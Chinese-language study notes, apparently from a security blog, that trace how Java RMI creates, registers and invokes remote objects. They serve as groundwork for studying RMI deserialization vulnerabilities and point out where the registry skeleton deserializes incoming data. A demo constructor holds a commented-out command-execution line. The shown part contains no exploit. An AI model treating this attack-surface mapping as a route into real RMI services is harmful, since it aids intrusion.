




# RMI （Remote Method Invocation）反序列化漏洞

1. 文章两年前写的，学的时候有印象，但是回头看的时候发现很痛苦，缺少自己的笔记基本等于要重学一遍，因此打算回头，重新整理一下，方便以后自己复习。

2. 参考文章：

    > su18 师傅的文章：https://su18.org/post/rmi-attack/
    >
    > 白日梦组长师傅的文章：https://halfblue.github.io/2021/10/26/RMI%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B9%8B%E4%B8%89%E9%A1%BE%E8%8C%85%E5%BA%90-%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90/
    >
    > 白日梦组长师傅的教程视频：https://www.bilibili.com/video/BV1L3411a7ax/?spm_id_from=333.999.0.0
    > IBM 对 RMI 的原理介绍：https://www.ibm.com/docs/zh/sdk-java-technology/8?topic=iiop-rmi-implementation

## 1. RMI 基本原理

### 1.1 RMI 的基本使用

1. 详见（缪雪峰的 Java 教程）：

    > https://www.liaoxuefeng.com/wiki/1252599548343744/1323711850348577

2. 自己编写的示例 Demo 如下：
    先是通用接口：

    ```java
    package com.endlessshw.rmi.common;
    
    import java.rmi.Remote;
    import java.rmi.RemoteException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 客户端和服务端共同需要的接口，需要继承 Remote 接口
     * @date 2023/5/3 11:44
     */
    public interface IMyRemote extends Remote {
        void saySth(String sentence) throws RemoteException;
    
        void getObject(Object obj) throws RemoteException;
    
        /**
         * 服务端改成仅接收 String 类型
         * @param str
         * @throws RemoteException
         */
        void getObject(String str) throws RemoteException;
    }
    ```

    然后服务端要实现该接口：
    ```java
    package com.endlessshw.rmi.common.Impl;
    
    import com.endlessshw.rmi.common.IMyRemote;
    
    import java.rmi.RemoteException;
    import java.rmi.server.UnicastRemoteObject;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 服务端对于共享接口的实现类
     * @date 2023/5/3 11:46
     */
    public class MyRemoteImpl extends UnicastRemoteObject implements IMyRemote {
        public MyRemoteImpl() throws Exception {
            // Runtime.getRuntime().exec("calc");
        }
    
        // 正常业务功能
        @Override
        public void saySth(String sentence) {
            System.out.println(sentence);
        }
    }
    
    ```

    服务端代码（注意这里的注释给出了 Registry 和 Server 端不在同一个地方的写法，即需要远程获取到 Registry）：
    ```java
    package com.endlessshw.rmi.server;
    
    import com.endlessshw.rmi.common.IMyRemote;
    import com.endlessshw.rmi.common.Impl.MyRemoteImpl;
    
    import java.rmi.RemoteException;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 服务器，提供自定义类的 RMI 服务
     * @date 2023/5/3 11:51
     */
    public class MyRemoteServer {
        public static void main(String[] args) throws Exception {
            // 实例化自定义类
            IMyRemote myRemote = new MyRemoteImpl();
    
            // 通过 UnicastRemoteObject 将服务导出为远程服务接口，前提是远程接口没有继承 UnicastRemoteObject
            // IMyRemote myExportedRemote = (IMyRemote) UnicastRemoteObject.exportObject(myRemote, 0);
    
            // 通过注册中心，将 RMI 服务注册到 1099 端口
            // 远程拿到注册对象，这里为了演示方便，就先创建再远程获取
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
            // 如果注册中心和服务端在一起，上面的方法就要注释掉，改用下面的方法
            // Registry registry = LocateRegistry.createRegistry(1099);
            // 注册，并将服务命名为 myRemote
            registry.rebind("myRemote", myRemote);
        }
    }
    
    ```
    
    客户端 Client 代码：
    ```java
    package com.endlessshw.rmi.client;
    
    import com.endlessshw.rmi.common.IMyRemote;
    
    import java.rmi.registry.Registry;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: RMI 客户端
     * @date 2023/5/3 11:59
     */
    public class MyRemoteClient {
        public static void main(String[] args) throws Exception {
            // 通过注册中心连接到服务器
            Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
            // 通过服务名查找服务，并转型成接口
            IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
            // 调用方法
            myRemote.saySth("Hello");
        }
    }
    ```
    
    运行后，服务端输出 Hello：
    
    
3. 注意点：

    1. 服务器和客户端因为要共享接口，而且底层是通过序列化和反序列化进行对象的传输与创建，因此**客户端一定要有接口的 java 文件。**

    2. 远程导入那步，即：
        ```java
        // 手动导出
        IMyRemote myExportedRemote = (IMyRemote) UnicastRemoteObject.exportObject(myRemote, 0);
        ```

        如果接口的**实现类，继承了 UnicastRemoteObject 并实现了其构造方法**：
        ```java
        public MyRemoteImpl() throws RemoteException {
        }
        ```

        那么 `exportObject()` 的调用可以省略。

### 1.2 服务端 Server 的相关逻辑（包括注册中心 Registry）

#### 1.2.1 远程对象创建

1. 从 Server 端开始，首先就是：
    ```java
    // 实例化自定义类
    IMyRemote myRemote = new MyRemoteImpl();
    ```

    实现类继承 `UnicastRemoteObject`，在这个类的构造函数上打断点，即可 Debug：
    
    根据官方的说法，`UnicastRemoteObject` 会将远程对象发布/单播出去；接着跟进 `exportObject()`：
    
    这里新出现一个类：`UnicastServerRef()`，先往下走：
    
    最后发现发布远程对象的方法要走 `UnicastServerRef()`，那么就要来看看这个类。

2. 先来看看官方对其的说明：
    
    对于远程对象来说，`UnicastServerRef` 是服务侧功能的远程引用。可以看到其还实现了 `Dispatcher`，因此也能说明其作用：
    
    回到 `UnicastServerRef` 的构造函数，其还创建了新的对象：`LiveRef`
    
    跟进：
    

    可以看到 `LiveRef`（实时引用）需要借助 `TCPEndpoint`，跟进这个 `TCPEndpoint`：
    
    再来看看这个类的介绍：
    
    总而言之，`TCPEndpoint` 是一个 TCP 通讯端类，上文提到的 `LiveRef` 是一个引用（包装)，其中包含了这个 TCP 通讯端和发布对象的 ID（即 `ObjID`)。
    这里再提及一下 `TCPTransport`，可以看到其主要负责传输功能：
    
    到此 `UnicastServerRef()` 介绍完毕，借用 halfblue 师傅的类图：
    
    看起来还是有一点乱，理一下关系：
    
    可以理解为 `UnicastRemoteObject` 是远程对象的基础类，其将网络请求有关的内容和功能外包出去（虽然 `UnicastServerRef` 是 `UnicastRemoteObject` 的成员，但是功能上两者地位平等，`UnicastServerRef` 要将 `UnicastRemoteObject` 发布出去)。

3. 回到第一点提及的 `UnicastRemoteObject#exportObject()`，其最终是调用了 `UnicastServerRef#exportObject()`，继续跟进：
    

    官方说明：

    1. 发布远程对象。
    2. 为 dispatcher（应是 `UnicastServerRef`）创建 skeleton（骨架）和 stub（存根）。
    3. 根据远程对象类型，用合适的 reference 实例化 stub。
    4. 创建由远程对象定义的 `Target`，将该 `Target` 和 stub 分布出去（其中 `Target` 由 `LiveRef` 发布，stub 存在 `Target` 内部）。

    先看第一个部分，stub 的创建。先看看 `getClientRef()` 是什么：
    
    再次使用相同的 `LiveRef` 创建一个 `UnicastRef`（但不是 `UnicastServerRef`)。
    回到 stub 创建，跟进：

    ```java
    /**
     * Returns a proxy for the specified implClass.
     *
     * If both of the following criteria is satisfied, a dynamic proxy for
     * the specified implClass is returned (otherwise a RemoteStub instance
     * for the specified implClass is returned):
     *
     *    a) either the property java.rmi.server.ignoreStubClasses is true or
     *       a pregenerated stub class does not exist for the impl class, and
     *    b) forceStubUse is false.
     *
     * If the above criteria are satisfied, this method constructs a
     * dynamic proxy instance (that implements the remote interfaces of
     * implClass) constructed with a RemoteObjectInvocationHandler instance
     * constructed with the clientRef.
     *
     * Otherwise, this method loads the pregenerated stub class (which
     * extends RemoteStub and implements the remote interfaces of
     * implClass) and constructs an instance of the pregenerated stub
     * class with the clientRef.
     *
     * @param implClass the class to obtain remote interfaces from
     * @param clientRef the remote ref to use in the invocation handler
     * @param forceStubUse if true, forces creation of a RemoteStub
     * @throws IllegalArgumentException if implClass implements illegal
     * remote interfaces
     * @throws StubNotFoundException if problem locating/creating stub or
     * creating the dynamic proxy instance
     **/
    public static Remote createProxy(Class<?> implClass,
                                     RemoteRef clientRef,
                                     boolean forceStubUse)
        throws StubNotFoundException
    {
        Class<?> remoteClass;
    
        try {
            remoteClass = getRemoteClass(implClass);
        } catch (ClassNotFoundException ex ) {
            throw new StubNotFoundException(
                "object does not implement a remote interface: " +
                implClass.getName());
        }
    
        // 后半段逻辑单独抽离出来：!ignoreStubClasses && stubClassExists(remoteClass)
        // 即如果存在名为“远程对象_stub”的类且不忽视则返回 true，如果忽视或者不存在了，就返回 false
        if (forceStubUse ||
            !(ignoreStubClasses || !stubClassExists(remoteClass)))
        {
            return createStub(remoteClass, clientRef);
        }
    
        final ClassLoader loader = implClass.getClassLoader();
        final Class<?>[] interfaces = getRemoteInterfaces(implClass);
        final InvocationHandler handler =
            new RemoteObjectInvocationHandler(clientRef);
    
        /* REMIND: private remote interfaces? */
    
        try {
            // 返回针对远程对象的动态代理
            return AccessController.doPrivileged(new PrivilegedAction<Remote>() {
                public Remote run() {
                    return (Remote) Proxy.newProxyInstance(loader,
                                                           interfaces,
                                                           handler);
                }});
        } catch (IllegalArgumentException e) {
            throw new StubNotFoundException("unable to create proxy", e);
        }
    }
    ```
    
    官方解释了创建出来的 stub 的命名方式是 `远程对象_Stub`。其实大部分情况都不会进入到这个 `createStub(remoteClass, clientRef);` 。回到 stub 创建处，可以发现，**这里的 stub** 的本质就是一个**动态代理远程对象**的类，调用处理器是 `RemoteObjectInvocationHandler`。TODO 这个动态代理的 `invoke` 逻辑在接下来调用的时候再看。
    
    回到 `UnicastServerRef#exportObject()`，接着是第二个部分 `setSkeleton(impl)`，调用这个方法前需要判断 stub 的类型：
    
    显然用户自定义的远程对象的 stub 并不会调用该方法。这里暂且跳过。
    
    接下来就是 `Target` 的实例化，来看官方对 `Target` 的介绍以及构造函数：
    
    
    根据官方介绍，看起来又像是一个包装的类，将远程对象 `UnicastRemoteObject` 和其地址空间捆绑一起，且通过 `ObjectTable` 定位具体的 `Target`。
    
    最后就是 `LiveRef#exportObject()`（服了，怎么又是一个 `exportObject()`），跟进：
    
    再接着跟进：
    
    最终来到 `TCPEndpoint` 的成员 `TCPTransport`：
    
    到这表明，**`TCPTransport` 最终负责网络传输工作**，其 `listen()` 监听端口，下面调用父类 `Transport` 的 `exportObject()`：
    
    跟进去看一眼：
    
    `ObjectTable` 全部的 `Transport` 共享，里面存放服务实例 Target。注意看其涉及到了 `DGCImpl` 类，这个类和垃圾回收相关，后面统一说。
    
4. 到此分析就基本结束了，中间有很多复杂的类和 `export` 行为。总结一下：

    1. 最大的对象是 `Target`，其是 `UnicastServerRef`（`Target` 的 `disp`） + `stub（其中 stub 是远程对象的动态代理类）` + `ObjID（可能是方便取用）`等。
        
    2. 看似很多的 `exportObject()`，其实最终还是来到了 `TCPTransport` 和 `Transport` 的 `exportObject()`。其中身为子类的 `TCPTransport` 负责最终的网络传输工作（监听、请求和回复等），父类 `Transport` 记录已经 export 的 `Target`，同时使用 `ObjectTable` 对 `Target` 统一管理。
    
    这其中还有两点没有提及的内容，需要注意：
    
    1. `stub` 作为远程对象的动态代理类的 `invoke()` 逻辑。
    2. `DGCImpl` 类及其背后的垃圾回收机制。

#### 1.2.2 注册中心 Registry 创建

1. 目前遇到的文章大部分情况下 Registry 和 Server 两者是同时创建的，那么这里就分析 Registry 的创建。给 `createRegistry()` 打个断点，然后来到 `RegistryImpl`：
    

    > Registry 包含一个将**名称和远程对象**映射 Map 的临时数据库。当 Registry 节点启动时，数据库是空的。存储的名称是未经任何修改的；当一个服务想要存储自己时，尽量添加自己的包名前缀以防止名称冲突。`LocateRegistry` 这个类存放了不同主机的 Registry。

    来到它的构造函数：
    
    `if` 判断默认不进入（即默认没有 `SecurityManager`)，来看 `else`，创建了一个默认的 `LiveRef`（端口是我们指定的端口)，跟进 `setup()`（`RegistryImpl::registryFilter` 指定了一个输入流 Filter)。
    

2. 这里又开始了上文讨论中的 `UnicastServerRef#export()`，不过这里和发布自定义远程对象不同，有些逻辑发生了变化。传入该方法的 `implClass` 是 `RegistryImpl`，同时 `permanent`（持久化) 参数为 `true`：
    
    

    首先来看 stub 的创建。系统中默认有 `RegistryImpl` 的 `RegistryImpl_Stub`，因此创建的 stub 并不是所谓的远程对象的动态代理类。跟进 `createStub(remoteClass, clientRef);`：
    
    结合官方说明，调用这个方法的前提是被创建 stub 的指定类是实现 `Remote` 接口的“偏向父”类。而且这里创建 stub 的逻辑是**直接调用反射而不是动态代理**，这意味着传入的类有 `传入类_stub` 的具体定义，显然这里的 `RegistryImpl_Stub` 是一个定义好的类：
    

    回到 `UnicastServerRef#exportObject()`，此时的 `RegistryImpl_Stub` 是 `RemoteStub` 的子类，因此会调用远程对象所没有调用的 `UnicastServerRef#setSkeleton(impl)`：
    
    跟进：
    
    通过反射创建 `impl_Skel` 对象，这里也就是 `RegistryImpl_Skel`：
    
    根据官方解释，`RegistryImpl_Skel` 作为一名 Dispatcher，会调用 `RegistryImpl` 的各种方法，如果浏览一下这个类，可以看到他的处理逻辑：

    ```java
    public void dispatch(java.rmi.Remote obj, java.rmi.server.RemoteCall remoteCall, int opnum, long hash)
        throws java.lang.Exception {
        if (opnum < 0) {
            if (hash == 7583982177005850366L) {
                opnum = 0;
            } else if (hash == 2571371476350237748L) {
                opnum = 1;
            } else if (hash == -7538657168040752697L) {
                opnum = 2;
            } else if (hash == -8381844669958460146L) {
                opnum = 3;
            } else if (hash == 7305022919901907578L) {
                opnum = 4;
            } else {
                throw new java.rmi.UnmarshalException("invalid method hash");
            }
        } else {
            if (hash != interfaceHash)
                throw new java.rmi.server.SkeletonMismatchException("interface hash mismatch");
        }
    
        sun.rmi.registry.RegistryImpl server = (sun.rmi.registry.RegistryImpl) obj;
        StreamRemoteCall call = (StreamRemoteCall) remoteCall;
        switch (opnum) {
            case 0: // bind(String, Remote)
                {
                    // Check access before reading the arguments
                    RegistryImpl.checkAccess("Registry.bind");
    
                    java.lang.String $param_String_1;
                    java.rmi.Remote $param_Remote_2;
                    try {
                        ObjectInputStream in = (ObjectInputStream)call.getInputStream();
                        $param_String_1 =
                            SharedSecrets.getJavaObjectInputStreamReadString().readString(in);
                        $param_Remote_2 = (java.rmi.Remote) in.readObject();
                    } catch (ClassCastException | IOException | ClassNotFoundException e) {
                        call.discardPendingRefs();
                        throw new java.rmi.UnmarshalException("error unmarshalling arguments", e);
                    } finally {
                        call.releaseInputStream();
                    }
                    server.bind($param_String_1, $param_Remote_2);
                    try {
                        call.getResultStream(true);
                    } catch (java.io.IOException e) {
                        throw new java.rmi.MarshalException("error marshalling return", e);
                    }
                    break;
                }
    
            case 1: // list()
                {
                    call.releaseInputStream();
                    java.lang.String[] $result = server.list();
                    try {
                        java.io.ObjectOutput out = call.getResultStream(true);
                        out.writeObject($result);
                    } catch (java.io.IOException e) {
                        throw new java.rmi.MarshalException("error marshalling return", e);
                    }
                    break;
                }
    
            case 2: // lookup(String)
                {
                    java.lang.String $param_String_1;
                    try {
                        ObjectInputStream in = (ObjectInputStream)call.getInputStream();
                        $param_String_1 =
                            SharedSecrets.getJavaObjectInputStreamReadString().readString(in);
                    } catch (ClassCastException | IOException e) {
                        call.discardPendingRefs();
                        throw new java.rmi.UnmarshalException("error unmarshalling arguments", e);
                    } finally {
                        call.releaseInputStream();
                    }
                    java.rmi.Remote $result = server.lookup($param_String_1);
                    try {
                        java.io.ObjectOutput out = call.getResultStream(true);
                        out.writeObject($result);
                    } catch (java.io.IOException e) {
                        throw new java.rmi.MarshalException("error marshalling return", e);
                    }
                    break;
                }
    
            case 3: // rebind(String, Remote)
                {
                    // Check access before reading the arguments
                    RegistryImpl.checkAccess("Registry.rebind");
    
                    java.lang.String $param_String_1;
                    java.rmi.Remote $param_Remote_2;
                    try {
                        ObjectInputStream in = (ObjectInputStream)call.getInputStream();
                        $param_String_1 =
                            SharedSecrets.getJavaObjectInputStreamReadString().readString(in);
                        $param_Remote_2 = (java.rmi.Remote) in.readObject();
                    } catch (ClassCastException | IOException | java.lang.ClassNotFoundException e) {
                        call.discardPendingRefs();
                        throw new java.rmi.UnmarshalException("error unmarshalling arguments", e);
                    } finally {
                        call.releaseInputStream();
                    }
                    server.rebind($param_String_1, $param_Remote_2);
                    try {
                        call.getResultStream(true);
                    } catch (java.io.IOException e) {
                        throw new java.rmi.MarshalException("error marshalling return", e);
                    }
                    break;
                }
    
            case 4: // unbind(String)
                {
                    // Check access before reading the arguments
                    RegistryImpl.checkAccess("Registry.unbind");
    
                    java.lang.String $param_String_1;
                    try {
                        ObjectInputStream in = (ObjectInputStream)call.getInputStream();
                        $param_String_1 =
                            SharedSecrets.getJavaObjectInputStreamReadString().readString(in);
                    } catch (ClassCastException | IOException e) {
                        call.discardPendingRefs();
                        throw new java.rmi.UnmarshalException("error unmarshalling arguments", e);
                    } finally {
                        call.releaseInputStream();
                    }
                    server.unbind($param_String_1);
                    try {
                        call.getResultStream(true);
                    } catch (java.io.IOException e) {
                        throw new java.rmi.MarshalException("error marshalling return", e);
                    }
                    break;
                }
    
            default:
                throw new java.rmi.UnmarshalException("invalid method number");
        }
    }
    ```

    可以看出，其根据传入的 Opnum，选择调用对应的处理方式，其中还涉及到反序列化数据等。

    再次回到 `UnicastServerRef#exportObject()`，接下来就是生成持久化（`permanent == true`）`Target` 并由 `ObjectTable` 维护。可以稍微看看持久化的流程，跟进去的话来到 `Target#pinImpl()`：
    
    还是和回收机制有关，大概意思是持久化的 `Target` 不会被本地回收。（补充一点，`ObjectTable` 普遍由 `WeakRef` 组成，其主要作用和持久化对应，其包裹着 `Target`)。

3. 总结一下，注册中心的创建和远程对象的创建流程基本相同，但也有些差异：

    1. 注册中心所代表的类相当于是**“特殊的”**远程对象，具有持久化（不会被本地回收）的特点。其 Stub 由反射创建（代表是 RMI 系统已经内置的）的具体类。
    2. 注册中心**所代表的“特殊”远程对象**独有 Skel（也就是其对应的 `UnicastServerRef.skel` 是其 Skel，来自 `UnicastServerRef#setSkeletion()`）。其实在 RMI 中只有 DGC（垃圾回收）和 `RegistryImpl` 有 Skel：
        
        **`RegistryImpl_Skel`** 根据传来的 Opnum 来执行对应操作，其中涉及到接受数据的反序列化，下文会再次提及该类，也是一个重要的类。
    3. 远程对象和注册中心 Registry 都有着自己的 `UnicastServerRef`（作为各自 `Target.disp`），不能混淆。

    `ObjectTable` 普遍由 `WeakRef` 组成，其主要作用和持久化对应，其包裹着 `Target`。
    注意**最后返回的对象是 `RegistryImpl`**，下文会对这个点进行强调。

#### 1.2.3 注册中心 Registry 获取（和 Client 端通用）

1. 如果 Registry 和 Server 不在同一端，那么 Server 端就要远程获取已经创建的 `Registry`，来看一下 `Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);` 的获取流程（前提是 Registry 已经创建）：
    ```java
    /**
     * Returns a locally created remote reference to the remote object
     * <code>Registry</code> on the specified <code>host</code> and
     * <code>port</code>.  Communication with this remote registry will
     * use the supplied <code>RMIClientSocketFactory</code> <code>csf</code>
     * to create <code>Socket</code> connections to the registry on the
     * remote <code>host</code> and <code>port</code>.
     *
     * @param host host for the remote registry
     * @param port port on which the registry accepts requests
     * @param csf  client-side <code>Socket</code> factory used to
     *      make connections to the registry.  If <code>csf</code>
     *      is null, then the default client-side <code>Socket</code>
     *      factory will be used in the registry stub.
     * @return reference (a stub) to the remote registry
     * @exception RemoteException if the reference could not be created
     * @since 1.2
     */
    public static Registry getRegistry(String host, int port,
                                       RMIClientSocketFactory csf)
        throws RemoteException
    {
        Registry registry = null;
    
        // 这里默认注册中心所在端口为 1099
        if (port <= 0)
            port = Registry.REGISTRY_PORT;
    
        // 默认 Host 也是本地 IP
        if (host == null || host.length() == 0) {
            // If host is blank (as returned by "file:" URL in 1.0.2 used in
            // java.rmi.Naming), try to convert to real local host name so
            // that the RegistryImpl's checkAccess will not fail.
            try {
                host = java.net.InetAddress.getLocalHost().getHostAddress();
            } catch (Exception e) {
                // If that failed, at least try "" (localhost) anyway...
                host = "";
            }
        }
    
        /*
         * Create a proxy for the registry with the given host, port, and
         * client socket factory.  If the supplied client socket factory is
         * null, then the ref type is a UnicastRef, otherwise the ref type
         * is a UnicastRef2.  If the property
         * java.rmi.server.ignoreStubClasses is true, then the proxy
         * returned is an instance of a dynamic proxy class that implements
         * the Registry interface; otherwise the proxy returned is an
         * instance of the pregenerated stub class for RegistryImpl.
         * 
         * 根据传入的 host，port，csf（默认为 null）为 Registry 创建一个代理类。
         * 如果传入的 csf 为 null，那么代理类所需要的、负责网络部分的 Ref 就是 UnicastRef，否则是 UnicastRef2...
         **/
        LiveRef liveRef =
            new LiveRef(new ObjID(ObjID.REGISTRY_ID),
                        new TCPEndpoint(host, port, csf, null),
                        false);
        RemoteRef ref =
            (csf == null) ? new UnicastRef(liveRef) : new UnicastRef2(liveRef);
    
        return (Registry) Util.createProxy(RegistryImpl.class, ref, false);
    }
    ```

    默认情况下，只创建了一个 `RegistryImpl_Stub`，创建逻辑和[创建注册中心](#1.2.2 注册中心 Registry 创建)时一样。

2. 如果 Registry 和 Server 端在一起，即通过 `Registry registry = LocateRegistry.createRegistry(1099);` 获取的注册中心时，**返回的对象是 `RegistryImpl` 而不是 `RegistryImpl_Stub`**，这一点要注意。

#### 1.2.4 服务端注册远程对象 - 以 `rebind()` 为例

1. 先来看服务端 Server 和注册中心 Registry 不在一起的情况，注意此时 Server 端获取的对象是 `RegistryImpl_Stub`：
    
    看这个名字，像是远程发起连接的类，跟进：
    
    可以看到明显的发起连接的类创建，同时 opnum 为 3（和在 [1.2.2 注册中心 Registry 创建](#1.2.2 注册中心 Registry 创建)中提到的 `RegistryImpl_Skel` 所需操作码一致），跟进 `StreamRemoteCall` 的实例化：
    
    其实看到这里已经差不多了，对一些数据进行处理和流写入等，退出来回到 `RegistryImpl_Stub#rebind()`，其下文调用了 `ref.invoke()`，也就是正式发起连接请求和数据传输。
2. 这时就要考虑接收端了，在 [1.2.1 远程对象创建](# 1.2.1 远程对象创建)的总结中，提到了 `TCPTransport` 负责最终的网络事件，在其中打个断点进行跟进：
    
    来到下文，这里进入操作选择：
    
    跟进 `serviceCall(call)`，查看服务调用流程：
    
    先是一部分的初始化，这里可以看到，根据接收过来的消息以获取对应的 `Target` 对象，然后也获取到具体的 `impl`，这里实际的 `impl` 是 `RegistryImpl`。接着往下：
    
    这里拿到注册中心 `Target` 的 `disp`，即注册中心的 `UnicastServerRef`，然后跟进这个 `disp.dispatch(impl,call);`。
    
    这里对自己的身份进行判断，因为 Registry 和 DGC 的 `UnicastServerRef#skel` 是各自的 skeleton。接着跟进 `oldDispatch()`：
    
    old 来自于其走的 RMI 1.1 的协议，然后最终来到了 `RegistryImpl_Skel#dispatch()`，这里就和 [1.2.2](# 1.2.2 注册中心 Registry 创建) 中提到 `RegistryImpl_Skel` 的内容相呼应了：
    
    最终还是走到了 `RegistryImpl#rebind()`。
3. 当然，如果 Registry 和 Server 在同一端，就没有这中间的 TCP 连接，而是直接调用 `RegistryImpl#rebind()`。

### 1.3 客户端 Client 的相关逻辑

#### 1.3.1 注册中心的获取

1. 客户端获取 Registry 的流程其实和服务端**远程获取**的流程一样，依旧拿到的是 `RegistryImpl_Stub`。


#### 1.3.2 查找服务

1. 查找服务的本质是调用 `RegistryImpl.lookup()`，不过客户端拿到的是 `RegistryImpl_Stub`，来稍微看一下：
    
    依旧是涉及到序列化和反序列化。不过重点还是应该放在服务端的处理。
2. 和 [1.2.4](#1.2.4 服务端注册远程对象 - 以 `rebind()` 为例) `RegistryImpl_Skel` 处理 `rebind()` 的逻辑相似，最终来到了 `RegistryImpl_Skel#lookup()`：
    
    可以看到，最终调用了 `RegistryImpl#lookup()`，然后将结果序列化。
3. 经过网络传输，来到了 Client 端的 `RegistryImpl_Stub#lookup`，获取到了远程对象的动态代理，其 InvocationHandler 是 `RemoteObjectInvocationHandler`。也就是在 [1.2.1](# 1.2.1 远程对象创建) 中提到的，远程对象自己的 Stub。
    

#### 1.3.3 服务调用

1. 这时候就是分析 `myRemote.saySth("Hello");` 的时候了。紧接上文获取到远程对象的 stub 开始，来到 [1.2.1]() 中提到了 `RemoteObjectInvocationHandler#invoke()`：
    
    接着跟进：
    
    来到了 `UnicastRef#invoke()`，然后就是 `call.executeCall()`（注意下文的 `unmarshalValue()`，其中涉及参数的反序列化）：
    
    接下来就是远程通信了。还是得看服务端 Server 的处理逻辑。
2. 对于服务端 Server，前面获取连接的流程和 [1.2.4](#1.2.4 服务端注册远程对象 - 以 `rebind()` 为例) 相同，直到来到 `UnicastServerRef#dispatch()`，因为这里的 `UnicastServerRef` 是远程对象的，而不是 Registry 的，因此其 skel 为空，所以不走 `oldDispatch()` 而接着向下：
    
    先是获取注册时存入的方法，然后就是参数获取，最后反射调用方法。
    最后再将方法的调用结果序列化给 Client，Client 再反序列化。

### 1.4 RMI 的底层原理总结

1. 当 Server 和 Registry 不在同一台主机时，各个部分所含的主要对象：
    

2. 如果在同一主机时，Server 端拿到的**就是 `RegistryImpl` 对象**而不是生成的 `RegistryImpl_Stub`，此时在“Registry `bind()`”时就不会通过 `RegistryImpl_Stub` 而是直接通过 `RegistryImpl` 对象并调用其 `bind()/rebind()`，因此就**不会调用 Registry 的 `UnicastServerRef` 对象的 `RegistryImpl_Skel` 的 `dispatch()` 来进行序列化和反序列化的处理**。

3. 总体的流程如下：
    1. 首先注册中心会进行创建，生成 `RegistryImpl` 以及对应的 Skel。
